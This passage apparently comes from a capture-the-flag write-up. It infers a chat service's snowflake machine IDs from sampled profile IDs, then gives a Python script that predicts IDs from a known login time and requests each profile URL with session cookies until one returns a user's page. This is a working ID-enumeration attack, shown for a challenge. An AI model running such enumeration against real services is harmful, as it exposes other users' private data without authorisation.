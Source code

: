```python
    localts = int(time.time()*1000)
    m = re.search('initialSeedData.*?id.*?([0-9]+)',out)
    sfid = int(m.group(1))
    bsfid = bin(sfid)
    bsts = int(bsfid[0:-22],2)
    machine_id = bin(sfid)[-22:-12]
    machine_sequence_id = bin(sfid)[-12:]
    machine_id_set.add(int("0b"+machine_id,2))
    machine_squence_id_set.add(machine_sequence_id)
    print("Machine ID Binary: \t", machine_id)
    print("Machine ID Value: \t", int("0b"+machine_id,2))
    print("Machine Sequence ID : \t", machine_sequence_id)

print("==================")
print("Machine ID Set: \t\t", machine_id_set)
print("Machine Sequence ID Set in Binary: \t", machine_squence_id_set)
```

Taking a look at the output, we can see that only values `{13, 37, 133, 337}` have appeared for machine ID, and for machine sequence ID, only `{000000000000}` has appeared. So we can use these values and write a snowflake ID generator:

```python
import requests

SPECIAL_LOGIN_DATE = 1703424817000 # Unix Timestamp for 2023-12-24 13:33:37 UTC
TWITTER_EPOCH = 1288834974657 # Refer to https://en.wikipedia.org/wiki/Snowflake_ID
MACHINE_ID = [13,37,133,337]
MACHINE_SEQUENCE = "000000000000"
flag = 0

cookies = {
    "__Host-authjs.csrf-token": "INSERT_YOUR_OWN",
    "__Secure-authjs.callback-url": "INSERT_YOUR_OWN",
    "__Secure-authjs.session-token": "INSERT_YOUR_OWN"
    }

for delay in range(5000):
    if flag == 1:
        break
    else:
        for mac_id in MACHINE_ID:
            snowflake_timestamp = bin(SPECIAL_LOGIN_DATE - TWITTER_EPOCH + delay)
            machine_code = bin(mac_id)
            machine_code_string = str(machine_code[2:].zfill(10))

            binnum = snowflake_timestamp + machine_code_string + MACHINE_SEQUENCE
            sfid = str(int(binnum,2))

            url = "https://chat.tienbip.xyz/profile/"+sfid
            print(url)

            r = requests.get(url, cookies=cookies)
            if "Full name" in r.text:
                print("OK", url)
                flag = 1
```
